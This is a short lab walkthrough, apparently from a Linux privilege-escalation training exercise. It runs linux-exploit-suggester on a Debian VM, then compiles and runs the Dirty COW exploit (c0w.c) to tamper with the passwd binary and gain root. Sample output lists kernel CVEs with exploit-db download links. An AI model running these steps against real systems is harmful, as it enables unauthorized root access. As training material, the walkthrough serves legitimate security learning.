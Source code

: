 **Detection**

**Linux VM**

1. In command prompt type: `/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh`
2. From the output, notice that the OS is vulnerable to “dirtycow”.

**Exploitation**

**Linux VM**

1. In command prompt type: `gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w`
2. In command prompt type: `./c0w`

*Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.*

3. In command prompt type: `passwd`
4. In command prompt type: `id`

From here, either copy /tmp/passwd back to /usr/bin/passwd or reset your machine to undo changes made to the passwd binary

---

```
TCM@debian:~$ /home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh

Kernel version: 2.6.32
Architecture: x86_64
Distribution: debian
Package list: from current OS

Possible Exploits:

[+] [CVE-2010-3301] ptrace_kmod2

   Details: https://www.exploit-db.com/exploits/15023/
   Tags: debian=6,ubuntu=10.04|10.10
   Download URL: https://www.exploit-db.com/download/15023

[+] [CVE-2010-1146] reiserfs

   Details: https://www.exploit-db.com/exploits/12130/
   Tags: ubuntu=9.10
   Download URL: https://www.exploit-db.com/download/12130

[+] [CVE-2010-2959] can_bcm

   Details: https://www.exploit-db.com/exploits/14814/
   Tags: ubuntu=10.04
   Download URL: https://www.exploit-db.com/download/14814

[+] [CVE-2010-3904] rds

   Details: http://www.securityfocus.com/archive/1/514379
   Tags: debian=6,ubuntu=10.10|10.04|9.10,fedora=16
   Download URL: https://www.exploit-db.com/download/15285

[+] [CVE-2010-3848,CVE-2010-3850,CVE-2010-4073] half_nelson

   Details: https://www.exploit-db.com/exploits/17787/
   Tags: ubuntu=10.04|9.10
   Download URL: https://www.exploit-db.com/download/17787

[+] [CVE-2010-4347] american-sign-language

   Details: https://www.exploit-db.com/exploits/15774/
   Download URL: https://www.exploit-db.com/download/15774
```